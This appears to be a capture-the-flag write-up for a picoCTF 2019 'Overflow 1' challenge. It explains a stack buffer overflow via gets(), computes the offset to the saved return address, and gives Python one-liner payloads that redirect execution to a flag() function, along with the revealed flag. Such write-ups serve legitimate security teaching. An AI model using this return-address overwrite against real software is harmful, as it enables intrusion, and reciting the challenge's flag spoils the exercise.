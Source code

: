 # Overflow 1

There is a simple get_return_address() call which lets us know when we overflow the return address with our input

```
printf("Woah, were jumping to 0x%x !\n", get_return_address());
```

On taking a look at the disassembly of the vuln() function , we can clearly see that the input we give gets stored on to the buffer at [ebp-0x48]

``` 
8048674:       8d 45 b8                lea    eax,[ebp-0x48]
8048677:       50                      push   eax
8048678:       e8 b3 fd ff ff          call   8048430 <gets@plt>
```
So we need to give an input of 0x48 + 0x4 bytes (to override the saved ebp) + 0x4 bytes (to override the saved eip)

```
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*72+"B"*8)' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x42424242 !
```

Now , Instead of 4 B's we add in the address of the flag() function in the little endian format.
```
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*76+"\xe6\x85\x04\x08")' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
flag{0v3rfl0w_1}
```
and there's the flag..!
